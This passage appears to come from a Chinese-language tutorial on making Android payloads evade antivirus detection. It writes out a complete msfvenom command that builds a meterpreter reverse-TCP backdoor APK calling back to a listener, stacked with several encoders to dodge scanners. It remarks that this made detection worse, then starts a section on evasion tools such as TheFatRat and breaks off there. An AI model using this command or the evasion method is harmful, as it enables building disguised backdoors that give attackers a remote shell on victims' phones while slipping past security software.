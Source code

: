 [![](assets/1701606948-dd42efc2aa8fa6942f460fc73b1411c1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231009102213-a8c1f180-664a-1.png)  
  
使用多重编码，增大免杀概率

```plain
msfvenom --platform Android -p android/meterpreter/reverse_tcp LHOST=10.10.10.1 LPORT=10008 -a dalvik --encoder x86/call4_dword_xor --iterations 5 --encoder x86/countdown --iterations 4 --encoder x86/shikata_ga_nai --iterations 3 -o encoded.apk
```

这里用到了 x86/call4\_dword\_xor，x86/countdown，x86/shikata\_ga\_nai 三个编码器  
  
[![](assets/1701606948-f86a09e3047a369ec0ae34eb1369ad9c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231009102226-b05d48ea-664a-1.png)  
  
没想到免杀效果反而变弱了，只能说是有的编码器特征已经被记录在了检测引擎里面，只要用了就会被检测到

## 工具免杀

> APK 免杀的工具好像比较少

### Thefatrat

